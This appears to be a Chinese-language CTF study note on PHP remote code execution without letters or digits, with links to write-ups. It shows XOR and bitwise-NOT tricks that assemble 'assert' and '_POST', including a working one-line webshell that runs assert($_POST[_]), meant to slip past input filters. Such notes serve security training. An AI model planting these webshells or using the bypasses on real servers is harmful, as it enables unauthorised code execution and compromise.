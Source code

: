 # 无字母RCE

>[无字母数字webshell总结](https://xz.aliyun.com/t/8107)

>[无字母数字webshell之提高篇-Phithon](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

>[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）](https://blog.csdn.net/miuzzx/article/details/109143413)

>[yu22x师傅博客](https://blog.csdn.net/miuzzx/article/details/109143413)

## 位运算`异或RCE`

找到两个非字母的字符，使得两者二进制异或之后变为对应字母就可，将它们连接起来然后传进去okk

异或运算，二进制字符进行比较，相同返回`0`，不同返回`1`

对于不可见字符，需要用url编码表示。

```php

<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

运行异或脚本生成txt文件，然后运行exp.py




## 位运算`取反RCE`

>[CTF训练计划—[SUCTF 2018]GetShell](https://blog.csdn.net/qq_43431158/article/details/108089364)

>[极客大挑战 2019]RCE ME

利用`UTF-8`编码中的某个汉字，将其中的某个字符提取出来，比如`'和'{2}`的结果是`\x8c`，其取反为字母`s`

代码举例：

```php

<?php
$_="卢";
print(~($_{1}));
print(~"\x8d");
// 输出rr

通过将指定汉字进行取反再指定取反后索引值的方式，可以获取到某个ascii字符

```

```php

<?php
$_++;   //得到1，此时$_=1
$__ = "极";
$___ = ~($__{$_});   //得到a，此时$___="a"
$__ = "区";
$___ .= ~($__{$_});   //得到s，此时$___="as"
$___ .= ~($__{$_});   //此时$___="ass"
$__ = "皮";
$___ .= ~($__{$_});   //得到e，此时$___="asse"
$__ = "十";
$___ .= ~($__{$_});   //得到r，此时$___="asser"
$__ = "勺";
$___ .= ~($__{$_});   //得到t，此时$___="assert"
```